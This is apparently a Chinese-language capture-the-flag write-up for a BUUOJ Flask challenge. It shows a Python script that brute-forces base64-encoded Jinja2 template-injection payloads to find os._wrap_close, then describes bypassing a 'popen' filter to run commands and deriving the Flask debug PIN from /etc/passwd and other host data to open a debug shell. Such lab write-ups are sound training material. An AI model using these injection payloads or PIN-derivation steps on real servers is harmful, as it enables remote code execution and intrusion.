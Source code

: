```python
import base64
import time
import requests

url = 'http://5ef5ad3d-b154-41a3-80ca-bb36ebf2c0ba.node5.buuoj.cn/decode'
for i in range(200):
    text = "{"+"{''.__class__.__base__."+f"__subclasses__()[{i}]"+"}"+"}"
    print(text)
    text = base64.b64encode(text.encode('utf-8')).decode('utf-8')
    data = {
        "text":text
    }
    resp = requests.post(url,data=data)
    if "wrap" in resp.text:
        print(i)
```

### 方法一：直接命令执行拿flag

现在拿到了`os.wrap`，可以做很多事了。题目过滤了`popen`，拼接绕过一下，可以直接拿flag了。payload记得base64编码

![16](https://the0n3.top/medias/buuflask/16.png)

![17](https://the0n3.top/medias/buuflask/17.png)

看其他师傅都是拿debug shell去拿flag，我也试试

## 方法二：flask debug shell

拿到调试的权限需要有pin码认证。可以通过一些数据计算得到pin码

- username
- modname
- getattr(app, 'name', app.class.name)
- getattr(mod, 'file', None)
- uuid
- machine-id

关于`username,modname,appnem,moddir`获取方式：

- username：通过/etc/passwd这个文件去猜
- modname：getattr(app, "module", t.cast(object, app).class.module)获取，不同版本的获取方式不同，但默认值都是flask.app
- appname：通过getattr(app, 'name', app.class.name)获取，默认值为Flask
- moddir：flask所在的路径，通过getattr(mod, 'file', None)获得，题目中一般通过查看debug报错信息获得

通过查看`/etc/passwd`，推测username是flaskweb

![18](https://the0n3.top/medias/buuflask/18.png)

modname,appname一般默认，通过报错可以拿到moddir，直接发包一个没有编码的payload就会出现报错信息，拿到路径

![19](https://the0n3.top/medias/buuflask/19.png)
